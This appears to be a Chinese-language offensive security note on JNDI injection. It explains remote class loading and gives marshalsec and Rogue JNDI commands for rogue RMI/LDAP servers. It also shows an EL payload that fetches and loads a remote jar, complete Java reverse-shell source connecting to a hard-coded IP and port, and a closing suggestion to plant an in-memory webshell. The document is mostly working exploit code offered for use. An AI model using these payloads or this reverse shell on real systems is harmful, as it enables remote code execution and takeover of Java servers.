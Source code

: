 ```yaml
---
sort: 4
---
```


# JNDI 注入姿势

## 原理

当有客户端通过`lookup("refObj")`获取远程对象时，获取的是一个 Reference 存根（Stub),由于是 Reference 的存根，所以客户端会现在本地的 classpath 中去检查是否存在类 refClassName，如果不存在则去指定的 url（http://axin.com:6666/refClassName.class）动态加载，并且调用insClassName的**无参构造函数**，所以可以在构造函数里写恶意代码。当然除了在无参构造函数中写利用代码，还可以利用java的static代码块来写恶意代码，因为static代码块的代码在class文件被加载过后就会立即执行，且只执行一次。

## 工具

### 1. marshalsec

1. 简介
   可以提供 rmi 或 ldap service，可以方便的使用 jdni 注入反弹 shell, 并且可生成多种 java 反序列化 payload

2. 命令格式

```
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
```

参数说明：

```
-a：生成exploit下的所有payload(例如：hessian下的SpringPartiallyComparableAdvisorHolder, SpringAbstractBeanFactoryPointcutAdvisor, Rome, XBean, Resin）
-t：对生成的payloads进行解码测试
-v：verbose mode, 展示生成的payloads
gadget_type：指定使用的payload
arguments - payload运行时使用的参数
marshalsec.<marshaller>：指定exploits，根目录下的java文件名
```

3. 开启 RMI 服务

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1/css/#ExportObject 1099
```

4. 开启 LDAP 服务

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/css/#ExportObject 1389
```

5. 查询可用 Gadget

```
java.exe -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Jackson //以Jackson为例
```

6. 生成特定 Payload

```
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.Hessian -v XBean http://127.0.0.1:8080/ExecObject
```

## 2. Rogue JNDI

rogue JNDI 工具可以突破高版本 jdk 的限制, 实现 jndi 注入. 其原理是使用服务器内部使用的不安全 ObjectFactory 进行命令执行. 例如 tomcat 的`javax.el.E​​LProcessor`类
使用方式:

```
java -jar ./target/RogueJndi-1.1.jar --command "whoami" -n 0.0.0.0
```

![](vx_images/5011255157555.png)

还可以修改源代码, 让工具远程加载 jar 包. 例如修改 Tomcat.java 的 payload 变量:
![](vx_images/3130057177721.png)

```java
    String payload = ("{" +
            "\"\".getClass().forName(\"javax.script.ScriptEngineManager\")" +
            ".newInstance().getEngineByName(\"JavaScript\")" +
            ".eval(\"new java.net.URLClassLoader['(java.net.URL[])']([new java.net.URL['(java.lang.String)'](['http://vps-ip/helloworld.jar'])])" +
            ".loadClass('hello.HelloWorld').newInstance()\")" +
            "}");
```

jar 包的内容为反弹 shell 的 java 代码:

```java
package hello;

import java.util.Locale;

public class HelloWorld implements  Runnable{

    static{
        try{
            new Thread(new HelloWorld()).start();
        }catch (Exception e){}
    }

    public static  void main(String[] args) {
        new HelloWorld();
    }

    public void run() {
        java.net.Socket sck = null;
        java.io.OutputStream out;
        java.io.BufferedReader rdr;
        Process proc;

        String cmd = "";
        String args = "120.25.0.166:8081";
        String arg[] = args.split(":");
        String os = System.getProperty("os.name").toLowerCase(Locale.ENGLISH);
        try{
            sck = new java.net.Socket(java.net.InetAddress.getByName(arg[0]), Integer.parseInt(arg[1]));
            out = sck.getOutputStream();
            rdr = new java.io.BufferedReader(new java.io.InputStreamReader(sck.getInputStream()));
            out.write("bingo, you get shell!\n".getBytes());
            while(cmd.trim().toLowerCase(Locale.ENGLISH).equals("exit") == false) {
                try{
                    out.write("> ".getBytes(), 0, "> ".getBytes().length);
                    cmd = rdr.readLine();
                    if(cmd.trim().toLowerCase(Locale.ENGLISH).equals("exit") == false){
                        if(os.contains("win")) {
                            proc = new ProcessBuilder(new String[]{"cmd","/c", cmd.trim()}).redirectErrorStream(true).start();
                        }
                        else{
                            proc = new ProcessBuilder(new String[]{"/bin/bash", "-c", cmd.trim()}).redirectErrorStream(true).start();
                        }
                        String line;
                        java.io.BufferedReader br = new java.io.BufferedReader(new java.io.InputStreamReader(proc.getInputStream()));
                        while((line = br.readLine()) != null){
                            line = line + "\n";
                            out.write(line.getBytes(), 0, line.getBytes().length);
                        }
                        br.close();
                    }

                }catch (Exception e){
                    out.write("Some exceptions happened.\n".getBytes());
                    out.write(e.getMessage().getBytes());
                }
            }
            out.write("EXIT!\n".getBytes());
            sck.close();
            out.close();
            rdr.close();
        }catch (Exception e){e.printStackTrace();}
    }
}

```

还可以写个内存马上去.
